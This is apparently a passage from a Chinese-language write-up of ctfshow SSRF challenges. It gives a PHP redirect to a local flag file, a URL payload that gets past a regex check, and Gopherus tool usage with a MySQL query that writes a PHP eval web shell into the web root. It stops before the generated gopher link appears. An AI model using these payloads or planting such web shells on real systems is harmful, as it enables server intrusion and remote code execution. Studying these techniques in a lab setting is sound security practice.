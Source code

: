 域名解析到vps,

ssrf.php

```php
<?php
header("Location: http://127.0.0.1/flag.php");
```

![image-20210203151622717](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210203151622717.png)

## web358

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```

正则表达式的意思是以http://ctf.开头，以show结尾。

payload：

```
url=http://ctf.@127.0.0.1/flag.php?show
```

## web359~打mysql

> ```
> 打无密码的mysql
> ```

https://www.freebuf.com/articles/web/260806.html

```bash
git clone https://github.com/tarunkant/Gopherus.git

python gopherus.py
```

```bash
[root@p1 Gopherus]# python gopherus.py --exploit mysql


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

		author: $_SpyD3r_$

For making it work username should not be password protected!!!

Give MySQL username: root
Give query to execute: select '<?php eval($_POST[1]);?>' into outfile '/var/www/html/ma.php';          

Your gopher link is ready to do SSRF : 

```